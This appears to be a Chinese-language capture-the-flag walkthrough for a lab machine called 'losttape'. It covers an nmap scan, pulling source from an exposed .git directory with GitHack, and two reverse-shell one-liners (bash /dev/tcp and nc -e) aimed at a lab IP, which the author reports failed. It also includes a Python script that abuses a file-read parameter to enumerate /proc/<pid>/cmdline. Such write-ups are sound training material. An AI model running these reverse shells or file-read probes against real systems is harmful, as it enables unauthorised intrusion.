






# losttape
nmap扫描

看一下80端口,发现.git文件
用githack下载下来查看源码
```
python2 GitHack.py http://192.168.111.147/.git/
```


直接执行反弹shell命令

/bin/bash -c "bash -i >& /dev/tcp/192.168.111.128/4444 0>&1"
nc -e /bin/bash 192.168.111.128 4444
但是根本没用,没有任何返回
合理的解释是这是旧版本,新版本可能有改变,可以去fuzz一些参数


参数file
读取源码

但是感觉没有啥用,不是include
看了下可以查看运行的进程
```
import requests

url = 'http://192.168.111.147/index.php'
for num in range(1000):
    data = {
        "file": f"/proc/{num}/cmdline"
    }
    response = requests.post(url, data=data)
    r = response.text.replace('Welcome', '')
    if r != '':
        print(f"{num}: {r}")

```

